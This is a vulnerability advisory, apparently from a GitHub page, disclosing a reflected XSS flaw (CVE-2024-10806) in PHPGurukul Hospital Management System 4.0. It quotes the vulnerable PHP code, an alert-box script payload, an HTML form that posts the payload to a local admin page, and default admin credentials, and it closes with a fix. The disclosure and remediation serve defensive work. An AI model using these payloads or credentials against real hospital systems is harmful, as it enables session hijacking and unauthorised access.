 # [XSS vulnerability] found in Hospital Management System (HMS) 4.0 - (betweendates-detailsreports.php) - CVE-2024-10806

Affected Project: **Hospital Management System (HMS)**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/hospital-management-system-in-php/)

Version: 4.0

Updated: 16 May 2024

Vulnerable path/file: `hms/admin/betweendates-detailsreports.php`

Injection parameter: `fromdate` , `todate`

<br />

Size: 16.7 MB

Sha256: 705263fd0533fde4c8c4d332bf943ea66de98645262cc896f415c897e824455a

<br />

## Vulnerability Description:
The parameters $fdate and $tdate are vulnerable to XSS because they accept user input from the $_POST array and output it directly to the page without any form of sanitization or encoding. This means that if a user submits HTML or JavaScript code within these fields, it will be rendered directly in the HTML output, executing any embedded JavaScript.
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
$fdate=$_POST['fromdate'];
$tdate=$_POST['todate'];

?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate?> to <?php echo $tdate?></h5>
```

<br />

## Injection Payload Tested:

We need to set the `fromdate` and `todate` to:
```
<script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a `POST` request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `betweendates-detailsreports.php` looks like:

<br />

![betweendates-detailsreports.php](https://i.postimg.cc/HnXLvmhw/1.png)

<br />

As it is a `POST` request we need to use a file `test.html` with the following content to be able to trigger the XSS popup:

```
<form method="POST" action="http://localhost/hospital/hms/admin/betweendates-detailsreports.php">
    <input type="text" name="fromdate" value="<script>alert('XSS')</script>">
    <input type="text" name="todate" value="<script>alert('XSS')</script>">
    <input type="submit" value="Submit">
 </form>
```

<br />

Then we have to open it on the browser:

For example: `file:///C:/Users/Testpc/Desktop/test.html/test.html`

<br />

![file](https://i.postimg.cc/T2gY6Rtm/2.png)

<br />

Before submitting the POST request we must be logged in:

Default login info:

Url: `http://localhost/hospital/hms/admin/index.php`

Username: `admin`
Password: `Test@12345`

After submitting the payload using POST with the vulnerable parameters `fromdate` and `todate` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/B6fkcG29/3.png)

then we need to click `OK` so the next POST request executed and XSS triggered.

![xss2](https://i.postimg.cc/5N2GmgQ0/4.png)


## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
$fdate = htmlspecialchars($_POST['fromdate'], ENT_QUOTES, 'UTF-8');
$tdate = htmlspecialchars($_POST['todate'], ENT_QUOTES, 'UTF-8');
?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate ?> to <?php echo $tdate ?></h5>

```

<br />

> One Click Can Change Everything: Be Secure.
